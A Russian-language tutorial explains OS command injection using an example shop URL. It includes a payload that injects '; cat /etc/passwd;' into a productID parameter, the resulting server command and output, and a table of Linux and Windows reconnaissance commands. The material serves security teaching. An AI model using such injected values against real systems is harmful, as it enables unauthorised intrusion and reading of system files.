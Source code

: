 ## Что такое внедрение команд ОС?

Инъекция команд ОС также известна как инъекция оболочки. Она позволяет злоумышленнику выполнять команды операционной системы (ОС) на сервере, на котором запущено приложение, и обычно полностью скомпрометировать приложение и его данные. Часто злоумышленник может использовать уязвимость инъекции команд ОС, чтобы скомпрометировать другие части инфраструктуры хостинга и использовать доверительные отношения, чтобы перенаправить атаку на другие системы в организации.

## Внедрение команд ОС

В этом примере приложение для покупок позволяет пользователю просматривать, есть ли товар на складе в определенном магазине. Доступ к этой информации осуществляется через URL:
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

Чтобы предоставить информацию о запасах. Устаревшие системы реализовывали это через вызов командной оболочки с идентификаторами продукта и магазина в качестве аргументов:
```
stockreport.pl 381 29
```
Эта команда выводит информацию о состоянии запасов указанного товара, которая возвращается пользователю.

Приложение не реализует никакой защиты от внедрения команд ОС, поэтому злоумышленник изменяет параметр `productID`, чтобы внедрить команду для чтения файла `/etc/passwd`:
```
https://insecure-website.com/stockStatus?productID=381; cat /etc/passwd; &storeID=29
```

Результирующая команда на сервере:
```
stockreport.pl 381; cat /etc/passwd; 29
```

Ответ сервера:
```
Error - productID was not provided
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
29: command not found
```

## Полезные команды

После того, как мы определили уязвимость внедрения команд ОС, полезно выполнить некоторые начальные команды, чтобы получить информацию о системе. Ниже приведено краткое изложение некоторых команд, которые полезны на платформах Linux и Windows:

| Цель команды              | Линукс        | Винда           |
| ------------------------- | ------------- | --------------- |
| Имя текущего пользователя | `whoami`      | `whoami`        |
| Операционная система      | `uname -a`    | `ver`           |
| Конфигурация сети         | `ifconfig`    | `ipconfig /all` |
| Сетевые соединения        | `netstat -an` | `netstat -an`   |
| Запуск процессов          | `ps -ef`      | `tasklist`      |
